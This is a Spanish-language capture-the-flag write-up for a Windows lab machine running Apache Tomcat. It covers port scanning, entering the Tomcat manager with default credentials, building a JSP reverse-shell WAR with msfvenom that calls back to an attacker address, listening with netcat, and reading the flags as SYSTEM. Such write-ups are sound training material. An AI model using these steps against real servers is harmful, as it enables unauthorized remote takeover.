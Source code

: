 ## Summary

Tags: #Windows #Tomcat #Msfvenom #ReverShell 

- IP -> 10.10.10.95
- Ports -> TCP (8080), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 8080 -> Apache Tomcat 

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://IP❯                  # Nos dara una breve descripcion del gestor de contenidos del puerto 80

	# Mirar la jQuery
	# Servidor Web
# Escaneamos el unico puerto que es el 8080
```

## Tomcat 
Ahora vamos a la pagina web a ver el contenido de Tomcat 
* Tomcat 7.0.88

Al momento de ir al '**/manager/html**' en la url de la web, nos pide un usuario y una passwd. Colocamos el típico 'admin: admin' pero nos niega el acceso, y nos dirige a la pagina en donde hay un usuario y passwd.  

Cerramos nuestro navegador e introducimos esas credenciales de prueba y logramos entrar al panel del manager. 

* En el panel de manager, encontramos una opción en donde podemos subir un archivo .war, por lo que hacemos lo siguiente:

Creamos nuestro archivo malicioso .war, lo subimos a la web y le damos deploy.
Para poder ejecutarlo, solo debemos de darle clic al 'reverse'
```bash 
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 -f war -o reverse.war

	# p = Payload
	# LHOST = Local Host (IP Atacante)
	# LPORT = Local Port 'Atacante'
	# f = Formato
	# o = Exportar como 
```

Antes de ejecutar el archivo nos ponemos en escucha
```bash
❯ nc -nlvp 443 
```

## User

## Root

Automáticamente somos
```bash 
'nt autorithy\system'
 
# Nos dirigimos a la ruta de
'C:\Users\Administrator\Desktop\flags'

# Ahi encontraremos un archivo que dice: 2 for the price of 1.txt

❯ type "2 for the price of 1.txt"    # Para poder leer archivos con espacios, debemos de colocarlos entre " " y asi obtenemos las 2 flag
```